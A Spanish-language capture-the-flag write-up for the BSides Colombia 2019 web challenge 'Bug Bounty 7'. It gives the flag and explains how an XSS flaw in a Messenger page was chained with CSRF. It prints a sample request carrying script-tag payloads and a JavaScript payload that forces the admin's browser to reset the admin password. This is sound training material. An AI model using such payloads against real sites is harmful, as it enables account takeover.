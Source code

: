 # __BSides Colombia 2019__

## _Bug Bounty 7_

## Información

**Categoría:** | **Autor**
--- | ---
Web | Huascar Tejeda <<htejeda@f2tc.com>>

**Descripción:**

> Nos hemos sumado a un programa "Bug Bounty", así que por cada vulnerabilidad habrá una recompensa.
> El objetivo es http://portal.bsides.ctf.co

**Bandera:**

> BSidesCo{bug7_un_CSRF_a_c1Eg4S_3s_cuESt10n_D3_tIeMp0}

## Solución

En la página **Messenger** (vulnerable a XSS) podemos enviar un mensaje que es visto automticamente por el administrador. Lo primero que intentamos fue robar la sesión del administrador, pero el servidor no permite el string "document.cookie". A pesar de que es posible hacer un bypass utilizando varias técnicas para ofuscar el código, existe algún tipo de middleware que limpia el valor de document.cookie antes de enviar el request al servidor malicioso.

Para solucionar este desafío podemos utilizar CSRF para que el lector ejecute un request (no legítimo) para cambiar su contraseña.

***Nota**: El usuario administrador (admin_lfrgn6uu) podemos encontrarlo en el archivo backup.sql*

**Página Profile para cambiar la contraseña de un usuario**:

![](/images/BSidesCo2019/Web/BugBounty7/01.png)

*Request ejemplo:*
```
POST /employee?page=profile.html HTTP/1.1
Host: portal.bsides.ctf.co
Content-Type: application/x-www-form-urlencoded
Cookie: user_session=s%3AvaDjbOLbXFSAfMRckOEOKkCer4hF1yJB.nwdKGI%2BDDBCKm0JSBk78c%2BJqZ6S39y8%2F1QwbV78lnKs
Content-Length: 170

first_name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&last_name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&email=test%40test.com&password=testing123&confirm_password=testing123
```

*Ataque:*

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST','http://portal.bsides.ctf.co/employee?page=profile.html',true);
    xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
    xhr.send('username=admin_lfrgn6uu&first_name=admin&last_name=admin&email=admin%40admin.com&password=testing123&confirm_password=testing123');
</script>
```

![](/images/BSidesCo2019/Web/BugBounty7/01.png)

![](/images/BSidesCo2019/Web/BugBounty7/02.png)
